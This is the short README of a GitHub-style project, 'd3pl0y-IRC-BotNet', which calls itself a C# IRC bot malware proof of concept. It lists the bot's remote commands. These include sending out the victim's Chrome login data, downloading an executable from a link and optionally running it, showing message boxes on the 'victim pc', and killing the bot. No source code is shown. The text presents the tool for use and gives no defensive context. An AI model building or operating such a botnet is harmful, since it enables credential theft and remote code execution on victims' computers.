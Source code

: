 d3pl0y-IRC-BotNet
=================

A C# irc bot malware POC.

Connects to an IRC server and receives commands.

!version - Bot version

!schrome - Begins a file transfer of a users chrome login data

!die - kills the bot

!mbox!The message - Shows a message box on the victim pc.

!download!http://linktofile/leethax.exe!C:\path\to\save\on\disk.exe!1 or 0 1 = run after download

